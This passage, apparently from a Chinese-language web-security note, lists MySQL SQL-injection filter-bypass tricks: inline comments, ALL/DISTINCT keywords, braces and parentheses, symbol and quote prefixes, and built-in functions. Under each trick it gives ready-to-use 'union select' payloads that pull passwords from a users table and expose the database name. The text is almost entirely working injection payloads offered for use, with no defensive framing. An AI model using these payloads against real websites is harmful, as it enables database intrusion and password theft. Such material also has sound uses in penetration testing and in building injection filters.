 (2)注释

` /*!*/ /**/ `

```
union select /**/ 1,password,3 from users %23
```


(3) ALL | DISTINCT | DISTINCTROW
```
union select ALL  1,password,3 from users %23
```


(4) {} ()
```
union select{x 1},password,3 from users %23

union select(1),password,3 from users %23
```


(5)符号

` + - @ ~ ! `

```
union select+1,password,3 from users %23
```

`" ' 单双引号  `

```
union select""a1,password,3 from users %23
union select+1,password,3 from users %23
```

组合

```
+@ +'' -@ -'' ~@ ~'' ~"" !@ !"" @$ @. \N$
...
```

```
union select+@a1,password,3 from users %23

union select\N$a1,password,3 from users %23
```


(6)函数

```
union select  MD5('a') |1,2,database() from users--+

union select reverse('xx'),password,3 from users %23

union select ST_X(Point(1, 2))a,2,database() from users--+
```

更多[内置函数](https://dev.mysql.com/doc/refman/5.6/en/sql-function-reference.html)查看
